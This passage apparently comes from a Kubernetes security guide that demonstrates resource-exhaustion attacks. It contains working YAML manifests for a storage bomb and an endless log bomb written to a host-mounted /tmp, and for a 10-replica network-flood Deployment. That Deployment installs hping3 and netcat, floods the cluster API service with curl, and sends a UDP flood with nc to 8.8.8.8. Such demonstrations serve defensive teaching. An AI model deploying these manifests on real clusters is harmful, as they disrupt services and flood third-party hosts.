 ```yaml
          
          # Method 2: Rapid small file creation
          for i in {1..100000}; do
            echo "Storage bomb file $i" > /tmp/file$i &
          done
          
          # Method 3: Log bomb
          while true; do
            echo "LOG_SPAM_ATTACK_$(date): $(openssl rand -hex 1000)" >> /tmp/logbomb.log
          done
        volumeMounts:
        - name: host-storage
          mountPath: /host
        # ❌ Attack can fill host filesystem
      volumes:
      - name: host-storage
        hostPath:
          path: /tmp
```

### Scenario 4: Network Resource Exhaustion

#### Network Bandwidth Saturation
```yaml
# Network flood attack
apiVersion: apps/v1
kind: Deployment
metadata:
  name: network-flood-attack
  namespace: resource-attack-demo
spec:
  replicas: 10
  selector:
    matchLabels:
      app: network-flood
  template:
    metadata:
      labels:
        app: network-flood
    spec:
      containers:
      - name: network-bomb
        image: alpine:latest
        command: ["/bin/sh"]
        args:
        - -c
        - |
          apk add --no-cache curl netcat-openbsd hping3
          
          echo "Starting network flood attack..."
          
          # Method 1: HTTP flood to internal services
          while true; do
            for service in kubernetes.default.svc.cluster.local; do
              curl -s $service & 
            done
            sleep 0.1
          done &
          
          # Method 2: UDP flood
          while true; do
            echo "UDP_FLOOD_PAYLOAD" | nc -u -w1 8.8.8.8 53 &
            sleep 0.01
```